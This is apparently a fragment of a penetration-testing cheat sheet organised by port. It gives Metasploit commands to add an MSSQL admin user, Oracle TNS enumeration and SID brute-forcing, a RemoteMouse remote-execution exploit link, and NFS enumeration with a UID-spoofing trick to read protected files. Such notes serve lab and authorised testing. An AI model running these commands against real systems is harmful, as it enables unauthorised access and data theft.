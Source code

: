 ```bash

#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass

```

## 1521-oracle

```bash
#enum
tnscmd10g version -h [ip]
tnscmd10g status -h [ip]

#msf bruteforce isd
auxiliary/scanner/oracle/sid_brute
```

## 1978-RmoteMouse
+  [RemoteMouse 3.008 - Arbitrary Remote Command Execution](https://www.exploit-db.com/exploits/46697)
+  pg-mice

## 2049-NFS
Network file system

```bash
//bannber grab
nc -nv ip 2049

//identify hosts have portmapper/rpcbind running
nmap -v -p 111 10.11.1.1-254

// nse rpcinfo
nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254

// all nsf script scan
nmap -p 111 --script nfs* 10.11.1.72

// mount dir  -o nolock, disable file locking
mkdir home
sudo mount -o nolock 10.11.1.72:/home ~/home/
cd home/ && ls

//show mounting info for an nfs server
showmount -d ip
showmount -a ip
showmount -e [ip]

mount [ip]:/ /tmp/nfs
mount -t [ip]:/ /tmp/nfs

// add user and change UUID for permission issue
sudo adduser pwn
sudo sed -i -e 's/1001/1014/g' /etc/passwd
su pwn 
id
cat xxx.txt
```
